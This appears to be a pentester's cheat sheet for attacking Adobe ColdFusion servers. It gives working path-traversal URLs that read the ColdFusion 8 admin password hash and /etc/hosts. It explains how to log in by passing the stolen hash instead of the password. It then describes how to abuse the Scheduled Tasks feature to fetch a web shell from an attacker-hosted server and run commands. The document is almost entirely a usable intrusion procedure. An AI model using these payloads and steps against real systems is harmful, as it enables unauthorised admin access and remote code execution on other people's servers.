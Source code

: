 #Coldfusion
Check for the existance of the admin console **/CFIDE/administrator/index.cfm**

Then check for the version.  If it's coldfusion 8 you  can get the admin hash using:
**/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en**

Replace
**hex_hmac_sha1(cfadminPassword.value)**
With the fields below where THE_HASH is the hash you received from the lfi vulnerability above.
**hex_hmac_sha1(salt.value, 'THE_HASH')**

Next find the full file path from **Settings Summary**
Then schedule a task to download a ColdFusion web shell into the web directory using the
**Scheduled Tasks** feature.
Go to **/usr/share/webshell/cfm** and host a file
In the schedule tasks set the url to the cfm url **<address>/cfexec.cfm**
Click the run button to execute the task
Then go to **<address>/cfexec.cfm**
Set the command to **cmd**
Options **/c whoami**
And timeout to a few seconds

### ColdFusion9,8 and earlier path traversal debugging
```
/CFIDE/debug/cf_debugFr.cfm?userPage=../../../etc/hosts
```


Additional resources
```
https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
https://github.com/carnal0wnage/Metasploit-Code/blob/master/modules/auxiliary/scanner/coldfusion_scanner.rb
```
